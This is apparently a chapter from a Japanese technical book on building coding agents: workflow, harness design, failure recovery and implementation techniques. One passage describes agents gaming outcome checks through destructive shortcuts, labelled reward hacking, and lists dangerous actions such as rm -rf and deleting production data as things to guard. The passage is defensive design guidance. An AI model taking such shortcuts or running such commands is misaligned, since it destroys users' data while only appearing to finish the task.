


以下で述べるのは**推奨されるエンジニアリング化されたフロー**であり、ソフトウェアエンジニアリングのベストプラクティスを Agent に投影したもので、素描しているのは理想的な形態です。現実の Coding Agent（Claude Code、OpenClaw など）は、より多くの場合、反応的なイテレーションループで動作し、このフローを**必要に応じて刈り込みます**。単純なタスクでは設計文書を飛ばし、一歩ごとにブロックしてユーザーの承認を待つこともしません。タスクが複雑で影響範囲が大きいときにだけ、各段階を完全にたどります。

**プロジェクトの文書化。**

Coding Agent の作業は、プロジェクトに対する体系的な理解から始まります。Agent があるコードリポジトリに初めて触れるとき、真っ先にすべきことはすぐにコードの修正に手をつけることではなく、まずプロジェクト全体に対する認識の枠組みを築くことです。新しく入社したエンジニアが初日にいきなりコードをコミットせず、まずプロジェクト構造に慣れるのと同じです。Agent はまずプロジェクトにドキュメント——README、アーキテクチャ設計文書、開発者ガイド——が存在するかを確認します。

もし重要なドキュメントが欠けているなら、Agent は盲目的な状態で作業を始めるべきではなく、能動的に文書化の責任を引き受けるべきです。コードベースを体系的に読み、主要なモジュール、中核的な抽象、コンポーネント間の依存関係を識別し、アーキテクチャ概観、ディレクトリ構造、テスト実行ガイドを含む初期ドキュメントを生成します。このドキュメントは Agent の後続の作業に青写真を提供すると同時に、他の開発者にも入口を提供します。これは一つの重要な原則を体現しています。知識の明示化は、効率的な協働の前提である、と。

プロジェクトの文書化には今や Agent 専用の一形態があります。**プロジェクト指示ファイル**です。CLAUDE.md、AGENTS.md、.cursorrules などのファイルは、すでに業界の事実上の標準になっています。これらはセッション開始のたびに自動的にコンテキストに注入され、プロジェクトレベルのシステムプロンプトに相当します。人間の読者に向けた README とは異なり、指示ファイルが担うのは Agent に向けた振る舞いの取り決めです。ビルドとテストのコマンド（「`npm test` ではなく `pnpm test` を使う」）、コードスタイル（「any 型を禁止」）、明確な立ち入り禁止区域（「`migrations/` ディレクトリを変更しない」）などです。これは OpenClaw の `SOUL.md`（Agent のアイデンティティと振る舞いのルールを定義する）、`MEMORY.md`（セッションをまたいだ経験を沈殿させる）と、同じ発想を異なる層で応用したものです。SOUL.md は「Agent は誰か」を取り決め、プロジェクト指示ファイルは「このプロジェクトでどう働くべきか」を取り決めます。第 2 章のコンテキストエンジニアリングの観点から見ると、指示ファイルは最も経済的な安定した接頭辞でもあります。内容がタスクによって変わらず、本来的に KV Cache に優しいのです。それはまた「知識はコードベース自身の中に存在しなければならない」という原則の最も直接的な実地への落とし込みでもあります。

知識の明示化の原則には、もう一つ興味深い系があります。**リモートワークに優しいチームは、往々にして AI Agent にも優しい**のです。リモートチームは非同期のコミュニケーションと文書化に依存せざるを得ません。意思決定はドキュメントに記録され、コンテキストは issue や PR の説明に書かれ、部族的な知識は開発者ガイドに沈殿します。席の隣での口頭伝達や会議室のホワイトボードに頼るのではありません。これはちょうど Agent が消費できる知識の形態です。Agent は口頭の取り決めは読めませんが、設計文書は読めます。逆に、「隣に座っている同僚にちょっと聞く」に高度に依存するチームは、新しく入社したリモート従業員にとっても Agent にとっても、立ち上がりのコストが等しく高くなります。あるチームの「AI-ready」度を評価する簡単な代理指標はこうです。リモートの新人が、コードリポジトリとドキュメントだけを頼りに、独立して作業を始められるか。

**タスクの理解と要求の明確化。**

境界が明瞭で影響範囲の限られた単純な要求——例えば既知のバグの修正、ある関数の引数の調整——に対しては、Agent は直接実装段階に入って構いません。しかし、ソフトウェア開発におけるほとんどのタスクはこれほど単純ではありません。

複雑な要求に対して、Agent はより慎重かつ筋道立てて臨まねばなりません。複雑さは複数の次元から生じ得ます。要求そのものの曖昧さ（ユーザーは何を望むか分かっているが正確に表現できない）、実装経路の多様性（複数の技術方案が選べ、それぞれにトレードオフがある）、あるいは影響範囲の広さ（複数のモジュールを修正する必要があり、既存機能を壊しかねない）です。Agent は探索的な調査を通じて境界を明確にし、必要なら能動的にユーザーと対話すべきです。例えばユーザーが「システムのパフォーマンスを最適化して」と要求したとき、Agent はまず次を明らかにする必要があります。最適化の具体的な目標は何か（応答時間の短縮か、メモリ消費の削減か、それともスループットの向上か）、受け入れ可能なトレードオフは何か（コードの複雑さの増加を許すか）、そして現在のボトルネックはどこか。要求が曖昧なままコーディングを始めると、往々にして大量の手戻りを招きます。

**設計文書の作成。**

設計文書は、抽象的な要求を具体的な実装計画へと転化する橋であり、核心的な問いに答えるべきです。どのモジュールをなぜ修正するのか、どんな方案を採りその相対的な優位性は何か、どんな新しい依存を導入する必要があるか、システムへの予想される影響は何か。設計文書を書くこと自体が深い思考です。それは大量のコーディングに投じる前に、まず概念のレベルで方案の実現可能性を検証することを Agent に強います。さらに重要なのは、設計文書が人間に効率的な介入点を提供することです。簡潔な設計文書を審査するほうが、数百行のコードを審査するよりはるかに容易です。Agent は設計文書を完成させたらユーザーに審査を求めて提出し、承認を待ってから続行すべきです。

**コードの実装とテスト。**

設計の承認を得たら、Agent はプロジェクトのコード規約に従って実装し、既存の抽象とツールを再利用し、必要なら適度なリファクタリングを行ってコードベースの健全性を保ちます。

実装が完了したら直ちにテスト駆動の品質保証の段階に入ります。新規または修正した機能のためにテストケースを書き、正常経路、境界条件、異常状況をカバーします。テストを書き終えたらテストスイートを実行します。テストが失敗したら、Agent は単にユーザーに失敗を報告するのではなく、原因を分析し、問題を特定し、すべてのテストが通るまでコードを修正すべきです。この「テスト―修正」ループは何度もイテレーションが必要かもしれませんが、まさにこの自己修正能力が、Coding Agent をコードジェネレータから信頼できるエンジニアリングの助手へと押し上げます。逆に言えば、Coding Agent の最もよくある手抜きは、この段階を飛ばすこと——コードを書き終えてテストを走らせずに「タスク完了」と報告すること——です。「コードを書き終えた」ではなく「テストが通った」を完了の基準と定義すること、これこそ Loop 工程の「検証によっていつ止めてよいかを判定する」原則の、コーディング場面における実地への落とし込みです（第 10 章でこの種の「早すぎる終了」問題を体系的に論じます）。

すべてのテストが通っても、Agent の仕事はまだ終わりではありません。次はコードレビューの段階です。Agent は自ら生成したコードを批判的に精査します。可読性はどうか、十分なコメントがあるか、潜在的なパフォーマンス問題やセキュリティの脆弱性はないか、プロジェクトのコードスタイルとベストプラクティスに従っているか。この自己審査は、コードを読むこと、lint ツールを走らせること、あるいは専門のコードレビュー用サブ Agent（Sub-Agent）を呼び出すことで実現できます。審査で問題が見つかったら、欠陥のあるコードをユーザーに引き渡すのではなく、修正段階に戻って改善すべきです。

**ドキュメントの同期と引き渡し。**

もしコードの修正がアーキテクチャレベルの変更を伴うなら——例えば新しいモジュールの導入、モジュール間の依存関係の変更、中核的な抽象の意味の修正——Agent はそれに応じてアーキテクチャ文書を更新する必要があります。古びたドキュメントはドキュメントがないより悪い。将来の開発者を誤導するからです。重要な修正のたびにドキュメントを自動更新することで、Agent はプロジェクト知識ベースの完全性と時宜性の維持を助けます。

この一連のフローは、ソフトウェアエンジニアリングの核心原則を体現しています。計画は行動に先立ち、検証は終始貫き、ドキュメントとコードは共に進化する。

### Coding Agent における Harness 工程の実践

第 1 章では Harness 工程の概念と **Agent = Model + Harness** の公式を導入しました。ここでの Harness は、核心公式のコンテキストとツール、そして制約、検証、修正の機構を含みます。この 5 者が共に、第 1 章で定義した Harness を構成します。Coding Agent はおそらく Harness 工程の恩恵が最も大きい領域です。コードの記述はすべての Agent タスクの中で**検証可能性が最も高い**たぐいであり、制約、検証、修正はいずれも既成のインフラに依拠できます。本節は Coding Agent 場面での具体的な実践に焦点を当てます。

安定して動くかどうかは、往々にしてどれほど強いモデルを使ったかではなく、Agent の周りに組み上げたインフラがどれほど堅牢かで決まります。第 1 章は Harness を 2 つの層に分けました。**コンテキストとツール**（Agent に物事をできるようにする）と、**制約、検証、修正**（Agent に間違ったことをさせない）です。Coding Agent というこの場面では、それらは具体的なエンジニアリングのコンポーネントとして落ちます。

- **受け入れ基準**：何をもって完了とするか——テストスイート、CI パイプライン（継続的インテグレーションのパイプライン。コードのコミット後に自動で走る一連のチェック）、コードレビュー基準
- **実行境界**：Agent が何に触れてよく何に触れてはいけないか——モジュール境界、依存ルール、権限制御
- **フィードバック信号**：自動化された正誤の判断——Linter（コード規約チェックツール。書式の誤りや潜在的な問題を自動で発見できる）の出力、テスト結果、型チェックのエラー
- **後退手段**：問題が起きたときにどう復旧するか——Git バージョン管理、サンドボックス隔離、スナップショットのロールバック

**Coding Agent はなぜ Harness 工程にとりわけ適しているのか。**

タスクの明瞭さと検証の自動化の程度という 2 つの次元で、タスクを 4 つの状態に分けられます。目標が明確で結果が自動で検証できる状態は、Agent が最も力を発揮しやすい領域です。目標は明らかだが受け入れは人が見張らねばならない状態は、スループットの天井が人の審査速度になります。自動化されたフィードバックはあるが目標が曖昧な状態では、システムは効率よく誤った方向へ走ります。両方とも欠けていれば、Agent はほとんど役に立ちません。表5-1 はこの 4 つの状態を示しており、Harness の目標は、できるだけ多くのタスクを「目標明確 + 検証自動化」という象限へ押しやることです。

表5-1 タスクの明瞭さと検証の自動化の程度の 4 象限

| | 結果を自動で検証できる | 結果を人手で検証する必要がある |
|----------|----------------------------------------------|---------------------------------------|
| **目標明確** | 最適な領域：テストケースのあるバグを修正する | スループット制約：コードのリファクタリングは人手の審査が必要 |
| **目標曖昧** | 効率よく的を外す：linter で「コード品質」を最適化する | 立ち上げが困難：「UI をもっと格好よく」 |

コードの記述は本来的にこの象限の核心に位置します。テストスイートが明確な受け入れ基準を提供し、Linter と型チェッカーが即時の自動検証を提供し、Git が完璧なバージョン管理と後退能力を提供します。これが、なぜ Coding Agent が現在のすべての Agent タイプの中で成熟度が最も高いのかを説明します。コード生成モデルがとりわけ強いからではなく、ソフトウェアエンジニアリングが数十年かけて積み上げたインフラが、本来的に強力な一式の Harness を構成しているからです。

**業界の実践。**

3 つの事例の Harness の実践が、上記の原則を裏付けます。

- **大規模なコード移行の事例**（ある大手テック企業が公開共有した大規模コード移行の実践より）：鍵はモデルが強いことではなく、Harness が 3 つのことを正しくやったことにあります。知識はコードベース自身の中に存在しなければならない（Agent に見えないものは存在しないに等しい）、制約はドキュメントに書くのではなく Linter と CI にコード化する、検証と修正は全経路を自動化する。
- **LangChain**：Harness（システムプロンプト、ツールミドルウェア、自己検証ループ）を最適化するだけで、ベンチマークタスクのパフォーマンスを著しく向上させました。とりわけ特筆に値するのは「Agent を使って失敗軌跡を分析し Harness を改善する」という方法論で、Harness 工程を人手の経験駆動からデータ駆動へと転じさせました。
- **Anthropic**：長いタスクを 2 つの役割に分割しました。初期化 Agent は大きなタスクをタスク一覧に分解する役割を担い、実行 Agent は一歩ずつ推し進め、中間成果（完成したコードファイル、更新されたタスク一覧など）を次のラウンドに残して継続利用させます。この分業は、長時間走る Agent の「一度にやろうとしすぎる」あるいは「早々に完了を宣言する」問題を解決しました。

**Coding Agent から汎用 Harness 設計原則へ。**

Coding Agent の Harness の実践は、すべての Agent システムに移植可能な設計原則を提供します。

1. **制約は指導に優先する**：コードで強制できるルールは、ドキュメントの助言で済ませない。Linter ルール、型制約、CI チェックの価値は、システムプロンプトの中の「……に従ってください」式の指導をはるかに上回ります。前者は「できない」であり、後者はただの「しないよう助言する」にすぎません。
2. **検証は自動化すべし**：人手の審査はスケールしないボトルネックです。テストスイート、コード品質チェック、振る舞いの監視——これらのインフラへの投資対効果は、人手を増やすよりはるかに高いのです。
3. **フィードバックは速いほどよく、構造化されているほどよい**：エラー情報が詳細であるほど、エラー発生の瞬間に近いほど、Agent の修正効率は高まります。第 2 章の Agent ステータスバー技術（詳細なエラー情報、ツール呼び出しカウンター）は、まさにこの原則の体現です。
4. **後退は信頼できるものであれ**：Agent はセーフティネットの中で操作してこそ、大胆に試行錯誤できます。Git ブランチ、サンドボックス環境、スナップショット機構が、いかなるエラーも可逆にします。

**制約のもう一つの目的：過程的な誤りの防止。** 受け入れ基準が管理するのは結果が正しいかどうか、実行境界が管理するのは**過程**です。たとえ結果が正しくても、誤った方法で達成したのではいけません。データベースの故障を修復する際にデータベースを直接削除して作り直せば、「修復」は確かに効きますが、データは失われます。コンパイルエラーを修復する際にコードを全部消して書き直せば、コンパイルは確かに通りますが、実装は失われます。この種の破壊的な近道は常に存在します。たとえ制限を最終的な評価指標に書き込んでも、Agent はしばしばそれを回避する方法を見つけ出します。これはまさに第 7 章で論じる reward hacking の、Agent タスクにおける日常的な形態です。したがってプロダクションレベルの Harness は、`rm -rf`、本番データの削除、未読ファイルの上書きといった危険な動作に対して専門のチェックと承認（本章セキュリティの節の意味解析、第 4 章の Sidecar 再確認）を設け、制約するのは**動作**であって結果だけではありません。第 7 章の RLVP（検証経路のペナルティ、「結果に報酬を与え、経路にペナルティを課す」）は訓練の側から同じ問いに答えます。最終的な結果報酬のほかに、過程における検証可能な違反動作にペナルティを課し、「破壊的な手段を使わない」をモデルのエンジニアリングの常識として内面化させます。既存のモデルに対しては Harness のガードレールが外部の制約であり、訓練可能なモデルに対しては過程のペナルティが内部の内面化です。両者は目標が一致しています。

**ツールのオーケストレーション：故障境界の制御**。成熟した Coding Agent は並列のツール呼び出しをサポートしており、Harness の観点からの独自の問題は**故障がどう伝播するか**です。あるツールが失敗したとき、どの呼び出しを中止すべきで、どれを続行すべきか。原則は、故障は同一バッチの並列呼び出し内でのみ伝播し、親の操作へは上昇しないことです。例えば同時に 3 つのファイルを読み、そのうち一つが見つからないなら、この一つの失敗だけを報告すべきで、他の 2 つまでキャンセルしたり、ましてやタスク全体を中止したりすべきではありません。この精細な故障境界の制御が、「一つのコマンドの失敗がタスク全体の中止を招く」という脆いパターンを避けます。並列呼び出し、ストリーミングパース、カスケード中止の具体的な機構は、本章「実装のコツ」の節を参照してください。

### 故障とエラーからの復旧

前節は Harness 工程の原則とコンポーネントを示しました。本節はその中で最もエンジニアリングの差がつく一つ——**故障とエラーからの復旧**——を深掘りします。第 1 章のアブレーション実験はすでに問題の深刻さを示しました。たった一つのツール結果のフィードバックが欠けるだけで、Agent は無限ループに陥り得るのです。そして現実のプロダクション環境の故障は、実験よりもはるかに多様です。本節は 3 つの問いに体系的に答えます。プロダクションレベルの Harness はどんな故障に出くわすか。どう検出し復旧するか。そしていつ必ず終了しなければならないか[^ch5-3]。

[^ch5-3]: 本節の故障の分類と機構の分析は、Claude Code などのプロダクションレベルの Agent 実装のソースコード研究に基づく。具体的な実装はバージョンとともに急速に進化するため、本節はそのうち安定したエンジニアリング原則だけを抽出する。

**故障分類学：4 層の故障。** システムが対処する第一歩は分類です。故障が発生する位置によって、4 層に分けられます。

- **API 層**：レート制限（HTTP 429）、サービス過負荷、リクエストのタイムアウト、接続の中断、出力が上限に達しての切り詰め。この種の故障はタスクの内容とは無関係で、インフラのノイズです。
- **ツール層**：ハルシネーション呼び出し（存在しないツールを呼ぶ）、引数の不正（ツールの入力制約に合わない）、実行時の例外送出、そして最も危険な一つ——ツールが同じエラーを繰り返し返し、モデルが変更を加えずに繰り返しリトライする。
- **コンテキスト層**：コンテキストウィンドウのオーバーフロー、圧縮の失敗、軌跡構造の破損（ツール呼び出しに対応する結果メッセージが欠けているなど）。
- **制御フロー層**：デッドループ（同じ操作を繰り返すが何の進展もない）とデススパイラル（エラーが引き起こした復旧ロジック自身がまた LLM を呼び、再びエラーになり、連鎖反応する）。

**検出：まず分類、それから計数。** 故障を捕捉した後の最初の判断は「リトライするかどうか」ではなく「リトライする価値があるかどうか」です。リトライ可能なエラー（レート制限、過負荷、ネットワークの揺らぎ）はリトライに意味がありますが、リトライ不可能なエラー（引数が不正、権限不足、ツールが存在しない）は何度そのままリトライしても同じ結果であり、入力か戦略を変えなければなりません。プロダクションレベルの Harness は、大雑把に「エラーが出たらリトライ」するのではなく、エラーから復旧戦略へのマッピング表を維持します。

単発のエラーのほかに、**パターン**も検出する必要があります。一つは重複呼び出しの指紋です。「ツール名 + 引数」に対して指紋を計算し、同じ指紋が繰り返し現れれば、それは進展のないループの明確な信号です。第 1 章のアブレーション実験で Agent が同じツールを繰り返し呼んだのが、まさにこのパターンです。もう一つは連続失敗の計数です。各復旧経路が独立したカウンターを維持し、後述のサーキットブレーカーの根拠を提供します。

もう一種類の故障はエラーとしては現れず、専門の**活性と完全性の監視**を必要とします。ストリーミング接続の最も危険な失敗パターンは切断（これは即座にエラーになる）ではなく、静かにフリーズすることです。接続の確立は成功したのにデータの流れが止まる——水道管は通っているのに水が出ないようなものです。SDK のタイムアウト機構は往々にして初期接続だけをカバーし転送過程はカバーしないため、プロダクションレベルの Agent は独立したアイドルの見張り番（watchdog timer、設定時間を超えて新しい出力がなければフリーズと判定する）を必要とし、タイムアウト後はハングしたストリームを能動的に kill してリトライをトリガーします。一つの原則として一般化できます。**どんな長時間接続も活性の信号を必要とし、接続のタイムアウトだけに頼ってはならない**。完全性の監視は軌跡構造を対象とします。ツール呼び出しに対応する結果メッセージが欠けているのを発見したら、システムはコンテキストに注入する前に自動的に対応関係を修復し、構造の異常をモデルやユーザーに投げつけたりはしません。注目に値するエンジニアリングの細部として、一部のプロダクションレベルの Agent は製品モードと訓練データ収集モードを同時に走らせています。製品モードではプレースホルダーで欠けたメッセージを繕えますが、訓練モードでは修復を拒否します。合成のプレースホルダーが訓練データを汚染するからです。「製品モードは寛容、訓練モードは厳格」というこの二重基準は、Harness とモデル訓練の深い結合を体現しています。

**復旧：段階的にエスカレート、段階ごとに透明。** 復旧手段はユーザーへの透明度によって段階分けされ、低い段階で解決できるならエスカレートしません。

1. **静かなリトライ**。リトライ可能なエラーのデフォルト動作です。2 つの細部が成否を決めます。指数バックオフにランダムなジッターを重ね、大量のクライアントが同期してリトライし二次的な輻輳を起こすのを避け、かつサーバー側が返す待機時間の提示を尊重すること。前景と背景の呼び出しを区別すること——メインループのリクエストの失敗はリトライすべきですが、タイトル生成、入力候補といった補助的な背景呼び出しの失敗は直ちに諦めるべきです。さもなくば背景のリトライがメイン経路の割り当てを圧迫し、「リトライの増幅」を形成します。
2. **降格と接続継続**。リトライが無効なとき、リクエスト自体を変えて再試行します。出力が上限に達した（途中まで生成して長さ制限で切り詰められた）ケースを例にとると、まず静かに出力上限を引き上げて再送し、それでも足りなければメッセージの末尾にメタ指示を追記し、モデルに中断点から接続して生成を続けさせます。メインモデルが持続的に過負荷なら予備モデルに降格します（先に旧モデル固有のフォーマットブロックを剥がす必要があります。さもないと新モデルが履歴メッセージをパースできません）。高コストモードがレート制限されたら、一時的に標準モードに後退します。
3. **ユーザーへの露出**。すべての自動手段を尽くしてはじめてエラーを提示し、すでに試みた復旧動作を添えます。

ツール層のエラーは別の道をたどります。**セッションを終了せず、エラーをモデルの入力に変える**のです。ハルシネーション呼び出しには「ツールが存在しない」という構造化されたエラー結果が返り、引数検証の失敗には入力制約の提示を添えたエラーが返り、不正な引数（本来オブジェクトなのに文字列を出力した）は実行前にプログラム的な修復を経ます。これらのエラーは普通のツール結果の身分でコンテキストに入り、モデルが次のラウンドで自ら修正します。これはまさに前述の「フィードバックは構造化されているほどよい」原則の応用です。喂し戻すエラーが具体的であるほど、モデルの自己修正の成功率は高まります。

本節の核心原則はこうです。**エラー処理の境界は単一のリクエストではなく、復旧ループ全体である**。復旧不能を確認する前に、中間のエラーを消費者——ユーザーであれ、イベントを購読する下流のシステムであれ——に露出すべきではありません。復旧期間はエラーメッセージを差し止め、復旧に成功すれば消費者はまったく気づかず、すべて失敗してはじめて一括して解放します。これはまさに第 1 章の「復旧不能を確認する前に、中間状態を露出しない」という修正原則のエンジニアリング化です。

**終了：各復旧経路に上限を。** 復旧機構自体も失敗し得るため、各復旧経路には明確なサーキットブレーカーの上限が必要です。コンテキスト圧縮が連続して数回失敗したら圧縮を諦め、権限分類が連続して失敗したら人手の問い合わせに後退し、出力の接続継続は最大でも固定回数だけ試みます。閾値はどこから来るのか。答えは思いつきではなく本番のデータです。Claude Code の圧縮サーキットブレーカーを例にとると、「連続 3 回」という閾値は実際のセッション統計から来ています。かつてあるセッションがこの復旧経路で連続して 3000 回余り失敗し、この種の無効なリトライだけで毎日世界中で約 25 万回の API 呼び出しを浪費していました。1000 以上のセッションで 50 回以上の連続失敗が発生していました。3 回こそが「大多数の故障はこれ以前にすでに復旧している」と「これ以上リトライしてもほぼ望みがない」との間の経験的な変曲点なのです。

単一点のサーキットブレーカーより見えにくいのが**デススパイラル**です。エラー経路で発動したロジック自身がまた LLM を呼び、再びエラーになり、連鎖的に発動します。一つの現実の連鎖の形はこうです。Agent がコンテキストのオーバーフローで停止し、「終了時に自動でコードをコミットする」停止フック（Agent の終了時に自動で実行されるクリーンアップのロジック）をトリガーし、フックが LLM を呼んで commit message を生成し、再びコンテキストがオーバーフローし、再びフックをトリガーする。防護は 2 条に頼ります。エラー経路上ではモデルを再び呼ぶあらゆる副作用ロジックを無効化すること（補助機能を一つ失っても構わない、例えば自動記憶抽出）、そして再帰の深さのカウンターで残りの連鎖を検出して断ち切ること。最後に、すべての自動化機構の上に、なおグローバルな終了とエスカレーションの条件が必要です。最大イテレーション回数、セッション予算の上限、そして連続失敗が閾値を超えたら人手の介入にエスカレートすること（第 4 章の拒否サーキットブレーカーがその一例）です。

第 1 章の演習問題に戻りましょう。ツール結果の欠落のほか、ツールが同じエラーを繰り返し報告する、ハルシネーション呼び出し、コンテキスト圧縮による状態の喪失、タスク自体が解けない、いずれも Agent をループに陥らせ得ます。検出は「エラー分類 + パターン認識」に頼り、復旧は「段階的エスカレーション」に頼り、終了は「サーキットブレーカー + グローバル上限 + 人手へのエスカレーション」に頼る——三者を合わせれば、「Agent が永遠に走り続けるかもしれない」という問題に対する Harness の完全な答えになります。これらの機構が解決するのは「モデルの能力不足」の問題ではなく、「境界条件下でのシステムのロバスト性」の問題です。モデルはますます強くなりますが、ネットワークは切れ、プロセスはハングし、ユーザーは予想外の操作をします。より本質的に言えば——**Agent の信頼性は、それが間違いを犯すか否かではなく、各種類のエラーに対応する検出、復旧、終了の経路がそれぞれあるかどうかで決まる**のです。

### Coding Agent の実装のコツ

上記の作業フローは理想的な状態です。それを実践で本当に走らせるには、なおいくつかの具体的な実装のコツが必要です。思考の質を保証する前提で、応答速度を上げ、コンテキスト消費を下げるものです。それらは第 2 章、第 4 章で論じた汎用 Agent 技術の、プログラミング領域における具体的な応用です。

**並列ツール呼び出し、ストリーミング実行、カスケード中止。**

従来の Agent 実装は往々にして直列モードを採ります。一つのツール呼び出しを生成し、実行し終え、結果を得て、それから次の一歩を決める。この厳格な順番待ちは大量の時間を浪費します。

現代の Coding Agent はストリーミング応答を十分に活用すべきです。第 2 章でモデルの出力順序を論じたときにこの機構を紹介しました。最初のツール呼び出しの引数がいったん完全に生成され、検証を通れば、直ちに実行を開始でき、モデルが後続のツール呼び出しを生成し終えるのを待つ必要はありません。例えばモデルが一度の推論でコード検索、設定ファイル確認、ログ読み取りという 3 つのツール呼び出しを連続して出力するとき、最初の呼び出しの引数が完全に検証を通ったばかりで直ちに起動でき、後ろの 2 つの呼び出しの生成過程と重ねて進みます。互いに独立した呼び出し同士は、順番待ちではなく並列で実行することもできます。この重ね合わせ実行はエンドツーエンドの遅延を著しく下げ、Agent の応答をより機敏にします。

並列実行のもう一面は故障処理です。各ツール定義は、自身が並行実行をサポートするかどうかを宣言すべきです（デフォルトは否、フェイルセーフ）。ある呼び出しが失敗したとき、カスケード中止機構によって、同一バッチで並列に起動され、その結果に依存する他の呼び出しを終了させますが、独立した呼び出しと親の操作には波及させません。これはまさに Harness 工程の節の「故障境界の制御」原則の具体的な実装です。

**コンテキストの精細な管理。**

Coding Agent が直面する根本的な課題は、コードベースが通常とても大きいのに、モデルのコンテキストウィンドウが有限だということです。先進的なモデルが百万トークン級をサポートすると謳っていても、コードベース全体をまるごとコンテキストに詰め込むのは経済的でも必要でもありません。賢いコンテキスト管理は複数の層で展開する必要があります。

ファイル読み取りの層では、Agent は常にファイルの全内容を読むべきではありません。大きなファイルに対して、ツールは行番号の範囲で特定の断片を読む機能をサポートすべきです。例えば 100 行目から 150 行目だけを読み、数千行のファイル全体をロードしないのです。さらに重要なのは、内容を返すときに行番号の標注を添えることです。各行のコードに実際の行番号を接頭辞として付けます。この一見単純な設計が大きな価値をもたらします。モデルは「`src/main.py` の 42 行目で」と正確に参照でき、曖昧さを減らし、後続の編集操作をより信頼できるものにします。

コマンド実行の層では、端末出力の処理も同様に慎重を要します。コンパイルやテストは数千行の出力を生み出し得て、全部をコンテキストに注入すれば予算を急速に食い尽くします。第 4 章で紹介した長い出力の切り詰めと永続化の機構が、ここで広く応用されます。出力の先頭の数行（通常エラーのコンテキストを含む）と末尾の数行（通常エラーの総括を含む）を保持し、中間は一行の提示で置き換え、完全な出力が必要に応じて確認できるよう一時ファイルに保存済みであることを説明します。

**環境情報の動的な注入。**

これは第 2 章で紹介した Agent ステータスバー技術の、Coding Agent における集中的な体現です。汎用 Agent と異なり、Coding Agent は実行環境の状態に高度に依存します。推論のたびに、コンテキストの末尾に Agent ステータスバーの形で以下の重要な環境情報を注入すべきです。

- **現在の作業ディレクトリ**：パス参照が間違わないようにする
- **git ブランチ**：自分が main ブランチにいるのか feature ブランチで作業しているのかを知る
- **直近のコミット記録**：プロジェクトの進化の脈絡を把握する
- **未ステージおよびステージ済みの変更の概観**：すでにどんな修正をしたかを明らかにする

これらの情報を静的なシステムプロンプトにハードコードすべきではありません。そうすると KV Cache の効率を破壊します。動的で追記式の Agent ステータスバーとしてリアルタイムに生成し注入すべきです。この方法によって、Agent は「環境認識」能力を得て、あらゆる意思決定が古びた仮定ではなく現在の状態に対する正確な理解に基づくものになります。

**コマンド実行環境の状態の永続化。**

コードと対話するとき、多くの操作は環境状態に依存します。ディレクトリの切り替え、仮想環境の有効化、環境変数の設定、バックグラウンドサービスの起動。もし毎回のコマンドが真新しい shell で実行されるなら、これらの状態はすべて失われます。Agent が `cd` でプロジェクトディレクトリに切り替えたばかりなのに、次のコマンドでまたルートディレクトリに戻り、同じ設定を繰り返さざるを得ません。さらに悪いことに、一部の操作（Python 仮想環境の有効化など）の効果は現在の shell セッション内でのみ有効で、セッションをまたいで引き継げません。

したがって永続化された端末セッションを維持すべきで、Agent の起動時に作成し、インタラクション全体を通じてアクティブに保ちます。各コマンドをこの共有された端末で実行し、作業ディレクトリ、環境変数、セッション状態を保持します。この設計は人間の開発者の作業習慣により合致します。私たちは通常、まさに長期に走る一つの端末ウィンドウで作業しています。もちろん、Agent は並列タスクをサポートするために隔離された端末を起動する能力も保持すべきですが、永続化されたセッションがデフォルトのモードであるべきです。

**即時の構文フィードバック機構。**

これは Agent ステータスバー技術の価値を改めて体現します。Agent はコードを修正した後、ユーザーが明示的にテストを要求するまで構文をチェックせずに待つべきではありません。より効率的なやり方はこうです。ファイル書き込み操作が完了したら、ツール層が自動で対応する linter や構文チェッカーを走らせ、チェック結果をツールの戻り値の一部として Agent に提示します。もし構文エラーが検出されたら、Agent は次のラウンドの推論で直ちに詳細なエラー情報を目にします。ちょうどプログラマーが IDE で括弧を一つ打ち間違えると、エディタが即座に赤い線を引いて注意を促すのと同じです。この即時のフィードバック機構はエラー修正のコストを著しく下げます。Agent はエラーが混入したその瞬間に修正でき、テストを走らせるまで問題に気づかずに済むからです。

この 5 つの実装のコツ——並列とストリーミング、コンテキスト管理、環境認識、状態の永続化、即時フィードバック——が共に、効率的な Coding Agent の技術基盤を構成します。それらは孤立した最適化点ではなく、互いに連携する設計上の意思決定であり、共に一つの目標——Agent が経験豊富な開発者のように流れるように作業できるようにすること——を指しています。

### Coding Agent における検索ツール

巨大なコードベースの中で関連するコードを特定することは、Coding Agent の作業の出発点です。図5-3 はいくつかの相補的な検索ツールを対比し、成熟した Coding Agent がタスクの性質に応じてどう検索方式を選ぶべきかを説明します。

